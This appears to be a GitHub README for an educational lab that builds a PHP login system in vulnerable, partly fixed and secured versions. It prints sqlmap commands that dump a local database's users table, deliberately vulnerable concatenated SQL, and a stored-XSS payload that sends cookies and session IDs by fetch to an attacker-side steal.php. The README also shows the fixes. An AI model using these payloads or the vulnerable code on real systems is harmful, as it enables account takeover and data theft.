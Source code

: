 <h1 align="center">Secure Login System</h1>

We created a login system, for the backend we use PHP and MySQL for the database and on the frontend we used HTML/CSS. 
The purpose of this project is to show how code becomes vulnerable to SQL injection.
We will analyze and perform SQL Injection attacks and Cross-Site Scripting attacks to see how they work when we do not secure the appropriate code. 
We'll use some attack tools like SQLMap. 

The project has three parts:

1.Secure Login System with Non-Sanitizing Code
Attacks like SQL Injection work here, as well as attacks like Cross-Site Scripting (XSS).
    This code is intentionally vulnerable to demonstrate:

    How legacy PHP applications become vulnerable
    Why string concatenation in SQL is dangerous
    How sqlmap and other tools exploit these weaknesses
    The importance of modern PHP security practices

The [vulnerable_login_form.php](https://github.com/cipriancyberspace/securewebapplication/blob/6446f90b9c608a4dc2e249c212e0f0be46d18ce2/Secure_Login_System/vulnerable_login_form.php) contains the code responsible for simulating SQL injection attacks with sqlmap. We will analyze below how the attack mechanism works and the consequences when code lacks proper sanitization.

2.Secure Login System with Partial Sanitizing Code
Attacks like SQL Injection don't work here, but there are some vulnerabilities related to Cross-Site Scripting (XSS).

[secure_sqli_vulnerable_xss.php](https://github.com/cipriancyberspace/securewebapplication/blob/233d578e923a9ef875144f9e56649e0006b6384d/Secure_Login_System/secure_sqli_vulnerable_xss.php) file demonstrates code that has been sanitized to prevent SQL injection attacks while maintaining vulnerability to XSS attacks, together with supporting files including steal.php, dashboard.php, and payload files responsible for XSS attack vectors.


3.Secure Login System with Complete Sanitizing Code
In this part, we have protected the code against both threats. Also, I will show you how to implement CAPTCHA for brute force protection.

<h1 align="center">1.Secure Login System with Non-Sanitizing Code</h1>

![Sqlmap](https://raw.githubusercontent.com/cipriancyberspace/securewebapplication/99e7e8d24c04397303853220b9ae101d9e12e940/Secure_Login_System/images/sqlmap.png)



Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/ee5612aa8bd9970e35df345d5f98699db35a3003/Secure_Login_System/images/sqlmap_1.png)

<strong> 1.SQLMap Command Breakdown: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" --data="username=test&password=test" --dbs --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/1bf4ec6c5278162c33acfffa401df1ce9bfb6bfb/Secure_Login_System/images/sqlmap_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/eff2084c859e84b41a33be3071eaf471de9b0d7e/Secure_Login_System/images/sqlmap_2.png)

<strong> 2.Explore your database: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db --tables --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/9086268e64a0716507f5dc933ce2bfb70513775b/Secure_Login_System/images/sqlmap_4.png)

<strong> 3.Dump user data: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --dump --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/f0b283ed11636000979a965a8ce7c080b99c5ea2/Secure_Login_System/images/sqlmap_5.png)

<strong> 4.Get database schema: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --columns --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/e4dc111aa3704427855dbe08de21b97209472a2a/Secure_Login_System/images/sqlmap_6.png)



⚠️ Why This Works 
Vulnerable PHP code:
<pre> <code>$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>
SQLMap exploits this by injecting payloads that break out of the SQL query, allowing it to execute additional SQL commands to enumerate databases.

Primary Vulnerability Location:
Line 78-82 - The main SQL injection vulnerability:


<pre> <code>/ VULNERABLE CODE - Direct string concatenation
$user = $_POST['username'];  // ❌ RAW user input
$pass = $_POST['password'];  // ❌ RAW user input

// ❌ DANGEROUS: Direct concatenation into SQL query
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

Secure Alternative with Prepared Statements:

<pre> <code>// Proper sanitization using prepared statements
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $user, $pass);  // "ss" = two strings
$stmt->execute();
$result = $stmt->get_result();</code> </pre>

Alternative with Input Escaping:

<pre> <code>// Basic escaping (less secure than prepared statements)
$user = $conn->real_escape_string($_POST['username']);
$pass = $conn->real_escape_string($_POST['password']);
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

<h1 align="center">2.Secure Login System with Partial Sanitizing Code</h1>

The attacker authenticates, accesses the "update profile" section, and injects the XSS payload into the "profile note" field before submitting the update. The code is stored RAW in the database without proper sanitization. Multiple payload types are available - this project demonstrates three variants: 1. Phishing payload 2. Password harvester 3. Silent credential extractor. These payloads extract sensitive data including cookies, storage objects, user information, browser details, form data, and page content based on payload configuration. A typical data collection payload example:

<pre> <code><script>
var stolenData = {
    cookies: document.cookie,
    sessionId: document.cookie.match(/PHPSESSID=([^;]+)/)[1],
    url: window.location.href,
    userAgent: navigator.userAgent,
    timestamp: new Date().toISOString()
};
// Data is prepared for transmission...
</script></code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_1.png)

In the following image, I have developed a payload named advance_password_phishing.js designed to extract user authentication credentials.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_2.png)

The payload sends the data to the attacker's server:

<pre> <code> fetch('./steal.php', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(stolenData),
    mode: 'no-cors'
}).then(function() {
    console.log('💰 Data stolen successfully!');
}); </code> </pre>

The payload transmits data to the attacker's server infrastructure. During this phase, steal.php processes the incoming JSON payload data, persists it to a .json file, and renders the collected information through dashboard.php

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_4.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_5.png)

<strong> 3.Secure Login System with Complete Sanitizing Code: </strong>

The secure_sqli_xss.php file is fully protected against SQL injection attacks because it uses prepared statements instead of directly concatenating user input into SQL queries. It's also secured against XSS attacks by sanitizing all output with htmlspecialchars() function, which converts dangerous HTML characters into safe entities. Additionally, I implemented a CAPTCHA system to prevent brute force attacks - this means automated bots can't repeatedly try to guess passwords because they have to solve a visual puzzle with distorted text that only humans can read. The combination of these three security measures - prepared statements for SQL safety, output sanitization for XSS prevention, and CAPTCHA for brute force protection - makes this application much more secure than the vulnerable versions we tested earlier.


